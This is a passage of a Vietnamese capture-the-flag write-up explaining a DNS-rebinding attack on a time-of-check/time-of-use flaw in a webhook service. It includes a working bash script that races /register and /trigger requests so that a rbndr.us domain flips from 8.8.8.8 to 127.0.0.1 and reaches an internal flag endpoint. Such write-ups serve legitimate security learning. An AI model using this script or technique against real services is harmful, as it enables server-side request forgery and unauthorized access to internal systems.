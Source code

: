     - Để khai thác lỗ hổng TOCTOU, chúng ta sử dụng DNS Rebinding. Chúng ta cần một tên miền được cấu hình đặc biệt để:
        - Lần đầu truy vấn: Trả về một IP công cộng hợp lệ (ví dụ: `8.8.8.8`) để vượt qua bước kiểm tra.
        - Các lần truy vấn sau (khi TTL hết hạn): Trả về IP mục tiêu (`127.0.0.1`) để máy chủ gửi yêu cầu đến dịch vụ nội bộ.
    - Sử dụng một dịch vụ như `rbndr.us`, ta có thể tạo ra một tên miền như vậy. Ví dụ: `08080808.7f000001.rbndr.us` sẽ phân giải lần lượt thành `8.8.8.8` và `127.0.0.1`.
4. **Tối ưu hóa Tấn công với Kỹ thuật "Mồi và Bắn" (Priming and Firing):**
    - Việc chỉ spam endpoint `/trigger` một cách ngẫu nhiên có tỷ lệ thành công rất thấp vì cửa sổ thời gian để khai thác race condition là cực kỳ hẹp.
    - Chúng ta áp dụng một chiến lược hiệu quả hơn:
        - **Mồi (Prime):** Gửi một yêu cầu đến `/register` với tên miền tấn công. Hành động này buộc máy chủ phải thực hiện truy vấn DNS, làm mới bộ đệm (cache) của nó với IP công cộng hợp lệ và khởi động lại bộ đếm TTL.
        - **Bắn (Fire):** Ngay lập tức sau bước "mồi", gửi một loạt yêu cầu `/trigger` với tốc độ cao. Một trong những yêu cầu này có khả năng cao sẽ "trúng" vào thời điểm vàng: cache DNS của máy chủ cho việc kiểm tra vẫn còn IP cũ, nhưng khi thư viện request thực hiện truy vấn mới, nó đã nhận được IP `127.0.0.1`.

---

## Kịch bản giải mã (Exploit)

Một kịch bản `bash` đơn giản được sử dụng để tự động hóa chiến lược "Mồi và Bắn", lặp lại quá trình cho đến khi thành công.

```bash
#!/bin/bash

# --- CẤU HÌNH ---
CHALLENGE_URL="<https://supernova.sunshinectf.games/>"
ATTACK_DOMAIN="<http://08080808.7f000001.rbndr.us:5001/flag>"
# webhook_id nhận được sau khi đăng ký ATTACK_DOMAIN lần đầu
WEBHOOK_ID="1d14f9b7-f4b9-4140-8dfc-c33bbcd68df9"
# -----------------

# Số lượng request trigger sẽ bắn ra trong mỗi loạt
BURST_COUNT=36

echo "Bắt đầu tấn công DNS Rebinding theo phương pháp 'Mồi và Bắn'..."
echo "Nhấn Ctrl+C để dừng."

# Vòng lặp tấn công vô hạn
while true; do
  echo "---------------------------------"
  echo "[+] Giai đoạn MỒI: Làm mới cache DNS của server..."
  # Gửi request tới /register để buộc server phân giải DNS và làm mới cache
  curl -s -o /dev/null -X POST -d "url=$ATTACK_DOMAIN" "$CHALLENGE_URL/register"

  echo "[+] Giai đoạn BẮN: Gửi $BURST_COUNT yêu cầu trigger liên tục..."
  # Bắn một loạt request trigger chạy song song để tăng cơ hội thành công
  for (( i=1; i<=$BURST_COUNT; i++ )); do
    curl -s -X POST -d "id=$WEBHOOK_ID" "$CHALLENGE_URL/trigger" &
  done

  # Đợi tất cả các tiến trình chạy ngầm hoàn tất
  wait
  echo "[+] Hoàn thành một chu kỳ. Đợi 2 giây trước khi lặp lại..."
  sleep 2
done

```
